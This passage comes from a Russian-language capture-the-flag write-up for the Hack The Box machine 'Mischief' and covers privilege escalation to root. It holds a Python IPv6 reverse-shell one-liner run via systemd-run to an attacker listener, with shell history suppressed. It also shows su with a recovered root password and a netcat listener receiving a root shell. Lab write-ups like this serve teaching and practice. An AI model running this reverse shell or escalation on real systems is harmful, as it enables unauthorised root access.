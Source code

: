 Поэтому нам нужен другой способ ввести креды суперпользователя.

## 1-й способ: su от имени www-data
Здесь все просто — возвращаемся к самопальному `command_execution_panel.sh`, снова триггерим шелл и оттуда эскалируемся до рута:
```text
www-data@Mischief:/var/www/html$ su -
Password: lokipasswordmischieftrickery

root@Mischief:~# whoami
root

root@Mischief:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## 2-й способ: systemd-run
Если не можем воспользоваться su, чтобы сменить пользователя, то можем сделать это через systemd-run.

Да, таким образом я не получу шелл "здесь и сейчас", но я смогу инициировать IPv6 реверс-шелл, как мы делали это раньше:
```text
loki@Mischief:~$ systemd-run python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::1009",31337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/sh");s.close()'
==== AUTHENTICATING FOR org.freedesktop.systemd1.manage-units ===
Authentication is required to manage system services or other units.
Authenticating as: root
Password: lokipasswordmischieftrickery
==== AUTHENTICATION COMPLETE ===
Running as unit: run-u19.service
```

```text
root@kali:~# nc -lvnp 31337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from dead:beef::250:56ff:feb9:7caa.
Ncat: Connection from dead:beef::250:56ff:feb9:7caa:47312.
# whoami
whoami
root
# id
id
uid=0(root) gid=0(root) groups=0(root)
```

## 3-й способ: lxc [ИСПРАВЛЕНО]
Еще один способ, относящийся к "unintended solutions". На момент релиза Mischief пользователю было разрешено выполнять команду lxc. [LXC](https://ru.wikipedia.org/wiki/LXC "LXC — Википедия") (aka ***L**inux **C**ontainers*) — это такая docker-like система виртуализации на уровне ОС для запуска нескольких инстансов Linux на одном хосте.


[//]: # (2019-08-20)